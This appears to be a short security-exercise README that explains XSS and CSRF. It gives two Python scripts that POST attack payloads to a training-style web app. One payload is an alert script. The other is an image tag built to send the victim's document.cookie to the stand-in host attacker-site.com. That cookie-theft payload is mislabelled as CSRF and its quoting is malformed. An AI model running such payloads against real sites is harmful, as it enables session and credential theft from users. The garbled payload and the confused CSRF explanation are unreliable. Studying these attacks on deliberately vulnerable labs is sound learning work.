 # Cloud-Security-2023
Create code that can automatically exploit its documented vulnerabilities.

**Cross-Site Scripting(XSS attack)**-harmful because they can be used to steal sensitive information, like login credentials or personal data from users.
How to execute an XSS attack- the payload variable contains a script tag with malicious JavaScript code. Problem arises if the server doesn't correctly/properly sanitize or encode the feedback parameter when rendering it in an HTML response. Consequence- script modified on the client side (XSS attack)

**Python Code for Cross-Site Scripting**
import requests  
payload = "<script>alert('XSS Attack!');</script>" #Payload variable mentioned above- site of vulnerability 
document_id = "your-document-id"
url = f"http://gruyere-app.com/feedback?id={document_id}" #This is the target website whereby the document ID has been appended to reach specific endpoint
data = {"feedback": payload}  #key-value pair received by the server where the data is processed(ie value which the payload variable is processed)
response = requests.post(url, data=data)
print(response.text)

**Cross Site Request Forgery (CSRF)**-tricks you into performing actions (unknowingly) on a website you trust, using your already authenticated session. It achieves this using login cookies and after authentication, carries out the request made. This request is a CSRF attack and can be mitigated using anti-CSRF tokens.

**Python Code for Cross-Site Request Forgery**
import requests  
payload = '<img src="http://attacker-site.com/steal?cookie=" + document.cookie + \'">\';' #Assigning a payload variable which contains malicious content in the form of html image tag sourced from the url shown.'document.cookie' is important as it stores the cookies associated with the web page the attacker wants to make a request to. 
url = "http://gruyere-app.com/settings" #Target URL
data = {"description": payload}
response = requests.post(url, data=data) #'post' allows us to send a http request and in this case, to the target URL.
print(response.text)
